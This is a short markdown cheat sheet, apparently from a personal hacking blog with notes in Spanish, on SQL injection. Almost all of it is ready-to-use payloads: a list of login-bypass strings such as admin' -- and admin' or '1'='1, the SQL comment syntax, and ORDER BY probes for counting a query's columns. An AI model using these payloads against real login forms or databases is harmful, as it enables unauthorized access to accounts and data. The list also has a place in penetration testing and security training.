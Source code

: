 ```yaml
---
title: SQLInjection CheatSheet 
author:
date: 15-11-2023
categories: [Hacking Web, SQLInjection]
tags: [SQLI, ErrorBased]
pin: false
image:
  path: 
  alt: SQLI
---
```


## Login Bypass Authentication 
```
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin'-- -
```

compara el usuario con la contraseña 
' ---   -> cierra la sentencia de la query y no hace la comparación con la contraseña

## Comentario de query
**Haciendo cometario de la query** 
```
# or -- -
```

## Enumeración de columnas - basandonos en x columnas
```
'order by 100-- -

'order by 50-- -

'order by 30-- -

'order by 10-- - 

'order by 4-- -
```
